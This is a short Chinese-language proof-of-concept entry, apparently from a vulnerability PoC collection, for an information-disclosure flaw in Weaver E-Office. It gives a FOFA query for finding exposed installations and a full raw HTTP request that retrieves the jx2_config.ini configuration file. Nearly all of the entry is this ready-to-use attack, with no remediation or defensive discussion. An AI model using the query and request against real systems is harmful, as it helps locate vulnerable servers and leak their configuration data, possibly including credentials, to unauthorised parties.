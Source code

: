 ## 泛微E-Office-jx2_config存在信息泄露漏洞

## fofa
```
app="泛微-EOffice"
```


## poc
```
GET /building/backmgr/urlpage/mobileurl/configfile/jx2_config.ini HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: LOGIN_LANG=cn; PHPSESSID=265e1c6495a3bd40146196a1a42cd8dd
Upgrade-Insecure-Requests: 1

```

![9dc2b5e9b8b6efe4cff7bcc60bf92bdc](../../images/d2b8c6c2-e4a4-4f78-86f7-59ede170cac6.png)
